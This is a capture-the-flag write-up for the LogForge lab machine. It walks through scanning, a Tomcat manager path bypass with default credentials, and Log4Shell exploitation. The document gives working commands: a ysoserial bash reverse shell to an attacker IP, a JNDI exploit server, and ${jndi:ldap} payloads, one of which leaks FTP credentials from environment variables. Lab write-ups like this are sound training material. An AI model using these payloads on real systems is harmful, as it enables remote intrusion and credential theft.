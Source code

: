 # LogForge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.153
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 02:50 EDT
Nmap scan report for 10.129.96.153
Host is up (0.017s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
80/tcp   open     http
8080/tcp filtered http-proxy
```

This is a UHC Box, so it should be somewhat fun.

### Web Enum --> Proxy Bypass

Port 80 just shows a simple image:

<figure><img src="../../../.gitbook/assets/image (639).png" alt=""><figcaption></figcaption></figure>

We can do a quick `gobuster` scan to find out more:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.96.153/ -x php,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.153/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/05/11 02:51:43 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> /images/]
/admin                (Status: 403) [Size: 278]
/manager              (Status: 403) [Size: 278]
```

The `/manager` endpoint is like Tomcat, and it does not request credentials for us to enter. We can do the bypass exploit by accessing `test/..;/manager`.

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can login with `tomcat:tomcat` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>

### WAR Fail

I tried to upload stuff using the standard WAR reverse shell, but it doesn't work. We would get an error message like this:

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>

The box name and the recent release of Log4j was a hint by the creator to try and make `log4shell` work.

### Log4j RCE

I'm following Hacktricks page on Log4Shell to execute these. We have to use these repositories to gain a shell:

{% embed url="https://github.com/pimps/JNDI-Exploit-Kit.git" %}

{% embed url="https://github.com/pimps/ysoserial-modified.git" %}

After downloading these, we have to run these commands:

{% code overflow="wrap" %}
```bash
$ java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' > shell.ser
$ java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.13:1389 -P shell.ser
```
{% endcode %}

Then, within the Tomcat interface, we just need to send this string in the XML configuration:

```
${jndi:ldap://10.10.14.13:1389/u3rmld}
```

Afterwards, we would get a shell as `tomcat`.&#x20;

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.96.153] 49842
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ 
```

### Java Version

I should note that some versions of Java doesn't work with `ysoserial`. In this case, we can download the right Java version from here:

{% embed url="https://jdk.java.net/archive/" %}

For this machine, I specifically used Java 11.0.2 to make it work.&#x20;

## Privilege Escalation

### FTP Env Leak

I noticed that FTP was open and accessible from inside the machine. Log4j can also be used to leak environment variables, so we can attempt that.&#x20;

```
tomcat@LogForge:/var/lib/tomcat9$ netstat -tulpn
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        1      0 127.0.0.1:44690         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp        0      2 10.10.11.138:49842      10.10.14.12:1337        ESTABLISHED 9577/bash           
tcp        1      0 127.0.0.1:44698         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      776/java            
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

If we analyse the process, we can see FTP is running some kind of JAR file:

```
tomcat@LogForge:/var/lib/tomcat9$ ps -ef | grep -i ftp
    993 ?        Sl     0:26 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

We can download this to our machine, and then reverse engineer it using `jd-gui`. There is a part where **environment variables** are being passed around.&#x20;

```java
private String validUser = System.getenv("ftp_user");

private String validPassword = System.getenv("ftp_password");
```

Using `ysoserial` agian, we could potentially leak these by constructing a certain string.&#x20;

{% embed url="https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/" %}

Following th above, we can use this to leak the credentials:

```
${jndi:ldap://10.10.14.13/user:${env:ftp_user}:password:${env:ftp_password}}
```

The credentials can be viewed within `wireshark`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Using this password, we can `su` to `root`.&#x20;
